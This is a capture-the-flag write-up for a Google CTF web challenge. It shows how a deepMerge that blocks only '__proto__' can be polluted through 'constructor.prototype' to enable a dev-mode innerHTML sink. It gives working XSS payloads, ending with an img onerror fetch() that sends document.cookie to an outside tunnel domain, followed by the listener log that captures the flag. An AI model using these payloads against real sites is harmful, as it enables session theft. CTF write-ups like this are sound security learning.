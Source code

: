 # prototype's fall - googlectf - web

The system's defenses are built on flawed foundations. Their inheritance isn't as robust as they believe. To exploit their weakness, don't just corrupt the blueprint; manipulate the very essence of their creation – the constructor itself. Twist its purpose, and watch their reality crumble.

## Methodology

Objective is to send an XSS affected page ot the admin.

To acheive that we need to find some way to modify the page. Inspecting the source yields the following entry point that will allow us to alter the page.

```
// NEXT: Add a child in a safe way. For now, only do this in dev mode.
        if (getEnv().devMode) {
            console.log("append child")
            child = document.createElement('div');
            child.innerHTML = getEnv().safeHTML;
            document.body.appendChild(child)
        }
```

The only problem with this is that the getEnv() function is hardcoded to not have a devMode. But with prototype pollution, we can change the prototype for all objects... including getEnv()

## Prototype pollution

All signs are pointing to prototype pollution. Lets look at the source.

This function yields a prototype pollution entrypoint from a weak sanitization on the config get parameter:

```
// Merges two objects deeply. Because shallow merges are for the well-rested.
        function deepMerge(dest, src) {
            for (let key in src) {
                if (!src.hasOwnProperty(key)) {
                    continue
                }
                if (typeof src[key] !== 'object') {
                    dest[key] = src[key];
                    continue
                } else if (key === '__proto__') { // This input sanitization? Prototype pollution doesn't stand a chance.
                    continue;
                }

                if (!dest[key]) {
                    if (Array.isArray(src[key])) {
                        dest[key] = []
                    } else {
                        dest[key] = {};
                    }
                }
                deepMerge(dest[key], src[key]);
            }
        }

```

If we set the config input to the following, we are able to pollute the prototype:

```
{
  "constructor": {
    "prototype": {
      "devMode": true
    }
  }
}
```

After setting this as the config param we see that the getEnv() function inherited the debugMode property through protoype pollution because the div element was appended to the page.

![debugON](https://github.com/user-attachments/assets/8c5f744f-2785-4a4d-a014-59713edd4824)


Why did getEnv() inherit devMode if we sent the input to the getConfig() function?

__Modifying the prototype modifies the protoype of ALL objects__

## XSS

With the following source, we see that we can write to the page with whatever the getEnv().safeHTML value is:

```
// NEXT: Add a child in a safe way. For now, only do this in dev mode.
        if (getEnv().devMode) {
            console.log("append child")
            child = document.createElement('div');
            child.innerHTML = getEnv().safeHTML;
            document.body.appendChild(child)
        }
```

Adding safeHTML property through prototype pollution:

```
{
  "constructor": {
    "prototype": {
      "devMode": true,
      "safeHTML":"<script>alert()</script>"
    }
  }
}
```

No alert showed up but the script was properly loaded into the page.

Trying the image XSS payload:

```
{
  "constructor": {
    "prototype": {
      "devMode": true,
      "safeHTML":"<img src=x onerror=alert()>"
    }
  }
}
```

Success:

![xss](https://github.com/user-attachments/assets/124c169f-3dd6-4795-b93c-f33d9fb6813f)


## Send to admin

From here we just have to modify the payload to send a fetch request for a domain we control and capture the cookie.

The modified payload that redirects to my domain with a listener:

```
{
  "constructor": {
    "prototype": {
      "devMode": true,
      "safeHTML":"<img src=x onerror=fetch('https://roommate-prescribed-madagascar-mexican.trycloudflare.com/flag='+document.cookie)>"
    }
  }
}
```

The flag:

```

127.0.0.1 - - [28/Feb/2025 14:38:18] "GET /flag=session=CTF%7B__proto__Pirate%7D HTTP/1.1" 200 -


```

# References/Learning

- Prototypes 
	- https://www.w3schools.com/js/js_object_prototypes.asp
	- https://developer.mozilla.org/en-US/docs/Learn_web_development/Extensions/Advanced_JavaScript_objects/Object_prototypes
- Prototype pollution
